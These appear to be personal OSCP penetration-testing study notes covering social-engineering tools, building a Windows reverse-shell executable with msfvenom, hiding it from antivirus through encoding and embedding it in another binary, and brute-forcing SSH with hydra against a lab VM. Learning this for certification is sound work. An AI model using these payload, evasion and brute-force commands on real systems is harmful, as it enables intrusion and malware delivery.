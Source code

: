```yaml
---
title: OSCP Study Notes - 2021/03/11
date: 2021-03-11 22:22:05
tags: [OSCP, Study Notes]
---
```


# Fuzzing
Download [Vulnserver](https://github.com/stephenbradshaw/vulnserver)
Download [immunity debugger](https://www.immunityinc.com/products/debugger/)

...
Skip since can not setup Vulnserver on host, not safe btw

# Client Side Attack,
Need a vulnerable web browser, something like phishing  

wait for victim to visit your site

setoolkit - social engineering attack

46->2 windows reverse_TCP meterpreter, errors again... guess my host is very secure

## Java Applet Attacks


# Reverse Shell
In a typical remote system access scenario, the user is the client and the target machine is the server. The user initiates a remote shell connection and the target system listens for such connections. With a reverse shell, the roles are opposite. It is the target machine that initiates the connection to the user, and the user’s computer listens for incoming connections on a specified port.

# generate Virus
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f exe -o shell1.exe

# check options
msfvenom -p windows/shell_reverse_tcp --list-options
```
MsfVenom - a Metasploit standalone payload generator.  
-p, --payload  

# Anti Virus
virustotl, scan for virus, test if it pass anti virus

## add encoding
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f exe -o -e x86/shikata_ga_nai shell2.exe
```
About shikata ga nai encoder: https://www.boozallen.com/c/insight/blog/the-shikata-ga-nai-encoder.html

## embeded to another binary
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f exe -o -e x86/shikata_ga_nai -x /usr/share/windows-binaries/nc.exe shell3.exe
```
-x, --template

Create virus youself will make the virustotal down

## Pre-exploit password attacks
brute force attack, last resort

ncrack, medusa, hydra

wordlist:
```
gzip -d /usr/share/wordlists/rockyou.txt.gz > ...
```

Use Kioptrix VM

```
hydra -v -l root -P rockyou.txt 192.168.0.22 ssh
```
-l login user  
ssh has log, will be detected

get conenction reset error

try to manually connect ssh, get 
```
Unable to negotiate with 192.168.0.22 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group1-sha1
```

add to ~/.ssh/config
```
Host 192.168.0.22
        KexAlgorithms +diffie-hellman-group1-sha1
        Ciphers +aes128-cbc
```

add `-c` to wait for 1s between each retry  
the  wait time in seconds per login attempt over all threads  


### Metasplit brute force
```
use auxiliary/scanner/ssh/ssh_login
```
